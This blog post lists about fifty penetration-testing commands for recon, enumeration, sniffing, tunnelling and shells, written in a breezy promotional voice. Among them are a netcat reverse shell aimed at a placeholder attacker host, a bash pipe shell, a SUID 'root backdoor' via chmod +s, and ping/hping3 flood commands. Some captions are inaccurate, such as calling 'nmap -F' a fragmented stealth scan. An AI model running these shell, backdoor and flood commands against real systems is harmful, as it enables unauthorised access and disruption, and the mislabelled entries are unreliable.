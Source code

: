 ```yaml
---
title: "The Real Top 50 Hacking Commands Every Cybersecurity Pro Must Master"
date: 2025-05-19 10:00:00 +0000
categories: [Cybersecurity, Hacking Tools]
tags: [ethical hacking, linux, terminal, pentesting, nmap, netcat, tshark, bash, reverse shell, firewalls]
image:
  path: /assets/img/top-50-terminal-commands.jpg
  alt: Terminal with hacking commands running
  width: 1200
  height: 630
pin: false
comments: true
permalink: /posts/real-top-50-hacking-commands/
---
```


# 50 Hacking Commands That’ll Melt Your Terminal (and Your Brain)

### ⚡ Hackers, Pen-Testers, Cyber Wizards — This One’s for You

Tired of “Top 5” lists that give you nothing but `ping` and `nmap -sV`?

This is **not** that. This is the **real deal**, my terminal-fu fam.

**50 legit hacking commands**, carefully crafted and field-tested by pros like **John Hammond**, **TomNomNom**, and **NetworkChuck** himself.

We're talking **ICMP tunnels**, **Wireshark’s evil twin**, **ASCII trolls**, **mass scans**, and enough `nmap` sauce to fingerprint half the internet.

---

## 🔥 Here’s What You’ll Get:

- ✅ Real-world **red teaming commands**
- ✅ **Evade firewalls** like a ghost in the wire
- ✅ **Exploit scanning**, **packet sniffing**, and **remote shells**
- ✅ Terminal memes & ASCII trains to keep things spicy

---

## 💣 The Full List: Top 50 Hacking Commands You Actually Need

Here they are, grouped by category — because chaos needs structure (kinda).

---

### 🥷 Recon & Scanning

1. `ping` — Are you even online, bro?
2. `ping -s 1300 -f <target>` — Floodzilla.
3. `hping3 -S -p 80 -V <target>` — TCP flood with flair.
4. `hping3 --traceroute` — Fancy firewall-dodging traceroutes.
5. `nmap -sn <subnet>` — Host discovery.
6. `nmap -sV <target>` — Service detection.
7. `nmap -O <target>` — OS detection.
8. `nmap -Pn <target>` — Skip ping probes.
9. `nmap -F <target>` — Stealth scan (fragmented).
10. `nmap -D RND:10 <target>` — Decoys for days.
11. `masscan -p0-65535 <range> --rate 10000` — Internet-scale scan speed.
12. `whatweb <domain>` — What tech stack we talking?
13. `whois <domain>` — Who owns this thing?
14. `WPScan --url <target> --enumerate u` — WordPress vulnerabilities.
15. `nikto -h <host>` — Quick web vuln scanning.

---

### 🔍 Subdomain & Directory Enumeration

1. `gobuster dir -u <url> -w <wordlist>` — Find hidden dirs.
2. `gobuster dns -d <domain> -w <dnslist>` — Subdomain smash.
3. `sublist3r -d <domain>` — Auto-sub discovery.
4. `amass enum -d <domain>` — Passive or active sub sweeps.
5. `wget <wordlist>` — Grab more ammo.

---

### ⚙️ Exploits & Post-Exploitation

1. `git clone <exploit-repo>` — Downloading weapons.
2. `searchsploit <term>` — Find public exploits fast.
3. `searchsploit -u` — Update your arsenal.
4. `bash -p` — Root shell if SUID is set.
5. `chmod +s /bin/bash` — Set your root backdoor.

---

### 🎯 Packet Sniffing & Network Analysis

1. `tcpdump -i any icmp` — Real-time ICMP sniffing.
2. `tcpdump -w capture.pcap` — Save it for later.
3. `tcpdump -r capture.pcap` — Read your chaos.
4. `tshark` — Wireshark CLI power.
5. `tshark -Y "http.request.method == 'GET'"` — Filter for juicy GETs.
6. `tshark -r file.pcap -qz endpoints,ip` — Who talked to who?
7. `tshark -T fields -e ip.src -e ip.dst` — Clean CSV-style output.
8. `iftop` — Bandwidth monitor wizardry.

---

### 🧠 Tunneling & Obfuscation

1. `ptunnel` — SSH over ICMP, bruh.
2. `ssh -D 1337 -C -q -N user@host` — SOCKS5 proxy via SSH.
3. `ssh user@host 'whoami'` — Remote command run.
4. `ssh user@host` — You already know.

---

### 💬 Shells & Persistence

1. `nc -lvp 1337` — Listener mode.
2. `nc -e /bin/sh <attacker> 1337` — Reverse shell. You’re in.
3. `nc -lvnp 1234 | bash` — Bash pipe shell.
4. `tmux new -s <name>` — Terminal multitool.
5. `tmux attach -t <name>` — Reattach like a boss.

---

### 🛠️ Misc Tools & Pro Tricks

1. `curl -i <url>` — Check headers like a ninja.
2. `curl -H "Auth: token" <api>` — Auth in your curl.
3. `alias ls='cat /dev/urandom'` — The chaos trap.
4. `alias ls='sl'` — Choo choo! (Steam Locomotive).
5. `cat /dev/urandom` — Nonsense, everywhere.
6. `vim -` — Pipe stdout into Vim to edit like a warlock.
7. `column %!sort` — Run sort inside Vim. What?
8. `git clone && ln -s` — Setup Git tools in a flash.

---

### 🧙 Final Words from the Command Line Cult

If you master even half of these commands, you’ll:

- Evade firewalls.
- Pop shells like champagne.
- Dissect packets with surgical precision.
- Make sysadmins scream “WTF?”

And yes, maybe even break the matrix a little.

 **—ArenRedd**